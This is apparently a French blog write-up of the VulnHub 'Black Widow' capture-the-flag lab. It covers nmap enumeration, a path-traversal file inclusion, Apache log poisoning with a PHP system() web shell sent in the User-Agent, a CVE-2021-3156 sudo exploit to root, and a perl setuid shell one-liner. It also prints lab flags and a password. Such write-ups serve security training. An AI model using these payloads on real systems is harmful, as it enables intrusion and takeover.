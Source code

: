 ```yaml
---
title: Solution du CTF Black Widow de VulnHub
date: 2022-01-12 13:33:00
tags: [CTF, VulnHub]
---
```


Intro
-----

[Black Widow](https://www.vulnhub.com/entry/black-widow-1,637/) est un CTF créé par *0xJin* et *mindsflee*, disponible sur VulnHub.  

Le CTF est de type boot2root avec un cas d'exploitation web classique qui aurait dû me prendre seulement quelques minutes mais un bug sur le CTF en a décidé autrement :p  

Le scan Nmap nous retourne une pléthore de ports liés aux différents services RPC. NFS aurait pu être de la partie mais aucun export n'est présent.  

Un proxy Squid tourne mais ne nous permet pas d'aller voir en interne (*curl -x http://192.168.56.25:3128/ http://localhost/* nous refuse l'accès).  

```plain
$ sudo nmap -T5 -p- -sCV 192.168.56.25  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-11 20:16 CET 
Nmap scan report for 192.168.56.25 
Host is up (0.00011s latency). 
Not shown: 65526 closed tcp ports (reset) 
PORT      STATE SERVICE    VERSION 
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0) 
| ssh-hostkey:  
|   2048 f8:3b:7c:ca:c2:f6:5a:a6:0e:3f:f9:cf:1b:a9:dd:1e (RSA) 
|   256 04:31:5a:34:d4:9b:14:71:a0:0f:22:78:2d:f3:b6:f6 (ECDSA) 
|_  256 4e:42:8e:69:b7:90:e8:27:68:df:68:8a:83:a7:87:9c (ED25519) 
80/tcp    open  http       Apache httpd 2.4.38 ((Debian)) 
|_http-server-header: Apache/2.4.38 (Debian) 
|_http-title: Site doesn't have a title (text/html). 
111/tcp   open  rpcbind    2-4 (RPC #100000) 
| rpcinfo:  
|   program version    port/proto  service 
|   100000  2,3,4        111/tcp   rpcbind 
|   100000  2,3,4        111/udp   rpcbind 
|   100000  3,4          111/tcp6  rpcbind 
|   100000  3,4          111/udp6  rpcbind 
|   100003  3           2049/udp   nfs 
|   100003  3           2049/udp6  nfs 
|   100003  3,4         2049/tcp   nfs 
|   100003  3,4         2049/tcp6  nfs 
|   100005  1,2,3      36713/udp   mountd 
|   100005  1,2,3      44363/tcp   mountd 
|   100005  1,2,3      57572/udp6  mountd 
|   100005  1,2,3      60195/tcp6  mountd 
|   100021  1,3,4      35689/tcp   nlockmgr 
|   100021  1,3,4      44158/udp   nlockmgr 
|   100021  1,3,4      44621/tcp6  nlockmgr 
|   100021  1,3,4      48444/udp6  nlockmgr 
|   100227  3           2049/tcp   nfs_acl 
|   100227  3           2049/tcp6  nfs_acl 
|   100227  3           2049/udp   nfs_acl 
|_  100227  3           2049/udp6  nfs_acl 
2049/tcp  open  nfs_acl    3 (RPC #100227) 
3128/tcp  open  http-proxy Squid http proxy 4.6 
|_http-server-header: squid/4.6 
|_http-title: ERROR: The requested URL could not be retrieved 
35689/tcp open  nlockmgr   1-4 (RPC #100021) 
44363/tcp open  mountd     1-3 (RPC #100005) 
53631/tcp open  mountd     1-3 (RPC #100005) 
54727/tcp open  mountd     1-3 (RPC #100005)
```

Conclusion: on s'en tient au port 80 qu'on maltraite avec l'aide de *Feroxbuster*. L'outil de brute force de paths nous trouve un dossier */company* à la racine du site.  

Assez rapidement je remarque en commentaire HTML le message suivant :  

> We are working to develop a php inclusion method using "file" parameter - Black Widow DevOps Team.

Je n'ai pas vraiment de fichier php à tester donc re-coup de *Feroxbuster* sur les fichiers et il en ressort un fichier *started.php*.  

Je parviens à reproduire la vulnérabilité d'inclusion avec la commande suivante :  

```bash
ffuf -w /wordlists/files/JHADDIX_LFI.txt -u http://192.168.56.25/company/started.php?file=FUZZ -fs 0
```

Il faut remonter une bonne quantité de dossiers avant d'atteindre la racine :  

```plain
http://192.168.56.25/company/started.php?file=../../../../../../../../../../../../../etc/passwd
```

L'étape suivante est bien sûr d'injecter du PHP dans un fichier présent sur le disque avant de l'inclure et là... catastrophe, j'ai tout essayé sans obtenir quoi que ce soit.  

Je me suis dirigé sur l'hypothèse du bug du CTF quand j'ai vu qu'inclure */var/log/apache2/access.log.1* retournait un résultat mais que l'on avait rien pour */var/log/apache2/access.log*.  

Les auteurs du CTF ont en effet simplement dû changer les permissions sur les logs manuellement mais comme logrotate fonctionne, quand moi j'ai démarré la VM, celle-ci a synchronisé son horloge et logrorate a archivé le fichier de log courant pour en créer un nouveau qui a les permissions par défaut (c'est à dire qu'on ne peut pas l'inclure).  

Par conséquent, boot sur la VM avec édition de l'entrée GRUB pour avoir un shell et correction des permissions pour avoir la même situation que les autres personnes ayant déjà résolu ce CTF :-(  

Injection de logs
-----------------

On part sur du classique à savoir passer du PHP dans le User-Agent en évitant d'y mettre apostrophes et guillemets qui risqueraient d'être échapés.  

```bash
curl -A '<?php system($_GET[chr(99)]); ?>' http://192.168.56.25/
```

Cette fois ça fonctionne !  

```plain
http://192.168.56.25/company/started.php?file=../../../../../../../../../../../../..//var/log/apache2/access.log&c=id
```

Kansas City Shuffle
-------------------

On peut passer directement de *www-data* à *root* via la faille sudo :  

```plain
www-data@blackwidow:/tmp/CVE-2021-3156-main$ python exploit_nss.py 
sudoedit: unable to resolve host blackwidow: Temporary failure in name resolution 
# id 
uid=0(root) gid=0(root) groups=0(root),33(www-data) 
# cd /root 
# ls  
root.txt 
# cat root.txt 

▄▄▄▄· ▄▄▌   ▄▄▄·  ▄▄· ▄ •▄     ▄▄▌ ▐ ▄▌▪  ·▄▄▄▄        ▄▄▌ ▐ ▄▌ 
▐█ ▀█▪██•  ▐█ ▀█ ▐█ ▌▪█▌▄▌▪    ██· █▌▐███ ██▪ ██ ▪     ██· █▌▐█ 
▐█▀▀█▄██▪  ▄█▀▀█ ██ ▄▄▐▀▀▄·    ██▪▐█▐▐▌▐█·▐█· ▐█▌ ▄█▀▄ ██▪▐█▐▐▌ 
██▄▪▐█▐█▌▐▌▐█ ▪▐▌▐███▌▐█.█▌    ▐█▌██▐█▌▐█▌██. ██ ▐█▌.▐▌▐█▌██▐█▌ 
·▀▀▀▀ .▀▀▀  ▀  ▀ ·▀▀▀ ·▀  ▀     ▀▀▀▀ ▀▪▀▀▀▀▀▀▀▀•  ▀█▄▀▪ ▀▀▀▀ ▀▪ 

Congrats! 

You've rooted Black Widow! 

0xJin - mindsflee 

0780eb289a44ba17ea499ffa6322b335
```

Regular
-------

Mais on peut voir sur le système un utilisateur *viper* qui dispose d'un fichier *local.txt* (sans doute un flag) dans son répertoire...  

A première vue LinPEAS ne remonte rien d'excitant. Il y a quand même ces capabilities vides sur le binaire perl qui m'échappent :  

```plain
Files with capabilities (limited to 50): 
/usr/bin/perl = 
/usr/bin/perl5.28.1 = 
/usr/bin/ping = cap_net_raw+ep 
/usr/lib/squid/pinger = cap_net_raw+ep
```

Qu'est-ce que ça signifie ? J'ai testé par exemple de lire */etc/shadow* avec mais sans résultats.  

LinPEAS donne aussi une liste de fichiers de logs auxquels on a accès et il y a notamment le fichier */var/backups/auth.log*.  

Une permissions en lecture sur le véritable *auth.log* m'aurait bien aidé pour la faille d'inclusion... Voyons voir ce qu'il y a dans ce fichier.  

```plain
Dec 12 16:56:46 test sshd[29560]: Failed password for invalid user ?V1p3r2020!? from 192.168.1.109 port 7090 ssh2
```

Cette ligne est la plus intéressante. L'utilisateur a visiblement tapé son mot de passe quand le nom d'utilisateur lui était demandé.  

On peut ainsi se connecter sur le compte via SSH.  

Fatality
--------

On peut donc obtenir le flag utilisateur :  

```plain
viper@blackwidow:~$ cat local.txt  
d930fe79919376e6d08972dae222526b
```

L'historique bash de Viper n'a pas été vidé et on peut voir par exemple ces commandes :  

```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
--- snip ---
cd backup_site/ 
ls -lrt 
cd assets 
ls -lrt 
cd vendor 
ls -lrt 
cd weapon/ 
ls 
./arsenic -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
--- snip ---

```

Comme vu plus tôt le binaire perl ne dispose plus de capabilities. En revanche on peut reprendre les autres commandes car le fichier *arsenic* est bien présent à l'emplacement attendu :  

```plain

viper@blackwidow:~/backup_site/assets/vendor/weapon$ ./arsenic -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";' 
# id 
uid=0(root) gid=1001(viper) groups=1001(viper)
```


*Published January 12 2022 at 13:33*
